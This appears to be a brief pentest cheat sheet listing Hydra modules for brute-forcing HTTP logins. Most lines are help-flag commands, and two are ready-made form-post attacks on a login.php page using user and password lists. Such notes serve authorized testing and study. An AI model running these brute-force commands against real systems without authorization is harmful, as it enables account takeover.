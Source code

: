 # Hydra

TODO: Provide every syntax of it's usage for hydra to brute force whatever type of http and provide an example of how to use it

## 01 - HTTP\[s\]-HEAD

`$ hydra -U http[s]-head`

## 02 - HTTP\[s\]-GET

`$ hydra -U http[s]-get`

## 03 - HTTP\[s\]-POST

`$ hydra -U http[s]-post`

## 04 - HTTP\[s\]-GET-FORM

`$ hydra -U http[s]-get-form`

## 05 - HTTP\[s\]-POST-FORM

`$ hydra -U http[s]-post-form`

`$ hydra http[s]-form-post <URL_path>:<form parameters>:<condition string>[:<optional>:<optional>]`

`$ hydra -L users.lst -P passwords.lst http-form-post "/login.php:user=^USER^&pass=^PASS^:Incorrect Password" -vV -f <IP>`

`$ hydra -L users.lst -P passwords.lst http-form-post "/login.php:user=^USER^&pass=^PASS^:F=<form name='login'" -vV -f <IP>`

## 06 - HTTP-PROXY

`$ hydra -U http-proxy`

## 07 - HTTP-PROXY-URLEnum

`$ hydra -U http-proxy-urlenum`